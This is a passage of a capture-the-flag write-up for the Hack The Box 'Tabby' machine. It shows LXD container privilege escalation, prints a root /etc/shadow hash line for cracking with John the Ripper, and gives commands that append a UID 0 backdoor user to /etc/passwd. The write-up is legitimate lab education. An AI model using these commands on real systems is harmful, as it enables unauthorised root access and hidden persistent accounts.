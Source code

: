 ![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-malicious_container.png" | relative_url }})

![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-create_container.png" | relative_url }})

![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-conf_container.png" | relative_url }})

And we start our malicious container containing root path in `/mnt/root/root` .

![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-privesc_container.png" | relative_url }})

![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-flag_root.png" | relative_url }})

#### Bruteforce with johntheripper :

```terminal
root:$6$86Nxy4plrFeu0w4C$IfFB5j7BEbjBrUOtkmxyfUZ0lnNIxAcFn3meuvjGqFPSIogXynKx9FU1w3XJIC60rvwuKcg6feaeBqcNWMO0H/:18429:0:99999:7:::
root:x:0:0:root:/root:/bin/bash
```

#### Add malicious user with root privilege :
Reference : <https://hacknpentest.com/linux-privilege-escalation-via-writeable-etc-passwd-file/>

```terminal
perl -le 'print crypt("Password@973","addedsalt")'
echo "privuser45:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /mnt/root/etc/passwd

lxc delete privesc && lxc image delete privuser45
```

![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-malicious_user.png" | relative_url }})

![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-malicious_user_1.png" | relative_url }})

***

# **<center>Trophy</center>**

> **If you can't give me poetry, can't you give me poetical science?**
>
> Ada Lovelace
